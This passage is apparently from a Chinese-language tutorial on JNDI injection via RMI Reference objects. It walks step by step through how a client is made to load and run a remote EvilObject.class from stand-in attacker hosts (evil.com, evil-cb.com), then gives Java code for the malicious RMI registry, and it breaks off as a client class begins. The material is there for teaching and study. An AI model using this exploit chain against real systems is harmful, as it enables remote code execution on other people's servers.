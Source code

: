 #### RMI+Reference利用技巧

JNDI提供了一个Reference类来表示某个对象的引用，这个类中包含被引用对象的类信息和地址。

因为在JNDI中，对象传递要么是序列化方式存储（对象的拷贝，对应按值传递），要么是按照引用（对象的引用，对应按引用传递）来存储，当序列化不好用的时候，我们可以使用Reference将对象存储在JNDI系统中。

**将恶意的Reference类绑定在RMI注册表中，其中恶意引用指向远程恶意的class文件，当用户在JNDI客户端的lookup()函数参数外部可控或Reference类构造方法的classFactoryLocation参数外部可控时，会使用户的JNDI客户端访问RMI注册表中绑定的恶意Reference类，从而加载远程服务器上的恶意class文件在客户端本地执行，最终实现JNDI注入攻击导致远程代码执行**。

![img](img/3.png)



1. 攻击者通过可控的 URI 参数触发动态环境转换，例如这里 URI 为 `rmi://evil.com:1099/refObj`；
2. 原先配置好的上下文环境 `rmi://localhost:1099` 会因为动态环境转换而被指向 `rmi://evil.com:1099/`；
3. 应用去 `rmi://evil.com:1099` 请求绑定对象 `refObj`，攻击者事先准备好的 RMI 服务会返回与名称 `refObj`想绑定的 ReferenceWrapper 对象（`Reference("EvilObject", "EvilObject", "http://evil-cb.com/")`）；
4. 应用获取到 `ReferenceWrapper` 对象开始从本地 `CLASSPATH` 中搜索 `EvilObject` 类，如果不存在则会从 `http://evil-cb.com/` 上去尝试获取 `EvilObject.class`，即动态的去获取 `http://evil-cb.com/EvilObject.class`；
5. 攻击者事先准备好的服务返回编译好的包含恶意代码的 `EvilObject.class`；
6. 应用开始调用 `EvilObject` 类的构造函数，因攻击者事先定义在构造函数，被包含在里面的恶意代码被执行；

代码示例：（jdk版本大概在`jdk1.8.0_65-jdk1.8.0_91`其他没试过，应该1.8问题不大。）

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RMIService {
    public static void main(String[] args) throws Exception{
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference refObj = new Reference("EvilObject", "EvilObject", "http://127.0.0.1:8080/");
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj);
        System.out.println("Binding 'refObjWrapper' to 'rmi://127.0.0.1:1099/refObj'");
        registry.bind("refObj", refObjWrapper);
    }
}
import javax.naming.Context;
import javax.naming.InitialContext;

public class JNDIClient {
    public static void main(String[] args) throws Exception{
```